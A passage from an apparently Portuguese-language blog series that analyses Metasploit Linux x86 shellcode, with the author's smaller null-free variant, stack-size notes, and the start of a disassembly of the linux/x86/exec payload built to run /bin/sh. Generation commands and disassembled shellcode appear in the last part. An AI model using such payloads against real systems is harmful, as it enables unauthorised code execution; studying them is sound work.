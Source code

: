 A versão do msf tem 73 bytes. A minha tem apenas 51 bytes, é à prova de lixo e
livre de null bytes.

{% gist geyslan/5426567 %}

O limite de leitura e escrita de 4096 bytes é uma garantia para não haver
estouro de pilha. Podemos saber qual o limite da STACK utilizando o ulimit.

{% highlight console %}
$ ulimit -a
...
stack size              (kbytes, -s) 8192
...
{% endhighlight %}

E se precisarmos de mais espaço na STACK, podemos aumentar o seu tamanho antes
de a utilizarmos.

{% highlight console %}
$ man 2 setrlimit
...
int setrlimit(int resource, const struct rlimit *rlim);
...
{% endhighlight %} [//]: # (*)

;)

##3rd - linux/x86/exec

{% highlight console %}
$ msfpayload linux/x86/exec S

       Name: Linux Execute Command
     Module: payload/linux/x86/exec
    Version: 0
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 143
       Rank: Normal

Provided by:
  vlad902 <vlad902@gmail.com>

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
CMD                    yes       The command string to execute

Description:
  Execute an arbitrary command
{% endhighlight %}

{% highlight console %}
$ msfpayload linux/x86/exec CMD=/bin/sh R | ndisasm -u -

00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E808000000        call dword 0x25
0000001D  2F                das
0000001E  62696E            bound ebp,[ecx+0x6e]
00000021  2F                das